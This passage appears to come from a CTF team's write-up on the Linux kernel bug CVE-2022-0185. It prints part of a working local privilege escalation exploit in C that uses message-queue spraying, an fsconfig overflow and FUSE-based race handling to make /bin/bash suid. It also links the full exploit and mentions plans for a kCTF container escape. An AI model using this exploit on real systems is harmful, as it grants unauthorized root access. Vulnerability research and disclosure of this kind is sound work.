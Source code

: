     int target = make_queue(IPC_PRIVATE, 0666 | IPC_CREAT);
    send_msg(target, message, size - 0x30, 0);

    puts("[*] Opening ext4 filesystem");
    fd = fsopen("ext4", 0);
    if (fd < 0) 
    {
            puts("Opening");
            exit(-1);
    }
    puts("[*] Overflowing...");
    strcpy(pat, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
    for (int i = 0; i < 117; i++) 
    {
        fsconfig(fd, FSCONFIG_SET_STRING, "\x00", pat, 0);
    }
    
    puts("[*] Prepaing fault handlers via FUSE");
    int evil_fd = open("evil/evil", O_RDWR);
    if (evil_fd < 0)
    {
        perror("evil fd failed");
        exit(-1);
    }
    if ((mmap((void *)0x1338000, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_FIXED, evil_fd, 0)) != (void *)0x1338000)
    {
        perror("mmap fail fuse 1");
        exit(-1);
    }

    pthread_t thread;
    int race = pthread_create(&thread, NULL, arb_write, NULL);
    if(race != 0)
    {
        perror("can't setup threads for race");
    }
    send_msg(target, rooter, size - 0x30, 0);
    pthread_join(thread, NULL);
    munmap((void *)0x1337000, 0x1000);
    munmap((void *)0x1338000, 0x1000);
    close(evil_fd);
    close(fd);
}

You can find the full link to our exploit here: https://github.com/Crusaders-of-Rust/CVE-2022-0185/blob/master/exploit_fuse.c; it can be easily adjusted for any kernel versions above 5.7, and the spray will need to be reworked for even older versions. Now with /bin/bash as suid, the exploit will finish. As any low privileged user with access to bash, one can just run it with the -p argument to achieve root privileges! All in all, a really simple (and reliable) exploit using techniques discovered in the CTF world.

Having an Ubuntu LPE is great and all, but what we really wanted to try was the Google kCTF VRP program for their bounty. The money would be great, and an exploit in a hardened environment will be quite useful during CTFs. They offered two challenges: kctf and fullchain. kctf is where you root the container to read the container’s root flag, and fullchain is where you root the container, escape to host, and then read the root flag of another container. Fullchain is the goal.
